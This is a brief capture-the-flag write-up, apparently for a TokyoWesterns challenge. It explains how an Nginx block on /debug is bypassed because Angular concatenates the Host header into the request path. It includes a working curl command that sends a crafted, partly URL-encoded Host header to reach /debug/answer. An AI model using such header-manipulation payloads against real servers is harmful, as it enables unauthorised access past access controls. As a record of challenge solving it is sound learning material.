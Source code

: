 # Angular v1

- Nginx blocked /debug
- Angular concats Host header in the path
- With some fuzzing, this gave us access to /debug/answer 
    - `curl http://universe.chal.ctf.westerns.tokyo/ -H "Host: %64ebug\answer"`
    - The `d` is URLEncoded %64 because it somehow breaks the path parsing and it's later decoded by Angular
